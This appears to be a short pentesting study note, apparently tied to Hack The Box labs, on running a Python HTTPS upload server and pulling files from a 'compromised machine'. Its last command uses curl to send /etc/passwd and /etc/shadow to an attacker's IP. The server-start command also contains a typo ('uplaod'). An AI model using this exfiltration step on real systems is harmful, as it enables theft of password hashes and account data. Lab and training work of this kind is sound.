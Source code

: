 Python Uploadserver
####################

Description
*************

There is a python http server you can use for upload files.

This can be installed with:

.. code-block:: console

   sudo python -m pip install --user uploadserver

Create a SSL cert

.. code-block:: console

   openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

.. code-block:: console

   mkdir https && cd https

Start the server

.. code-block:: console

   sudo python3 -m uplaod server 443 --server-certificate ../server.pem

Then from the compromised machine you can send files needed:

.. code-block:: console

   Temen@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
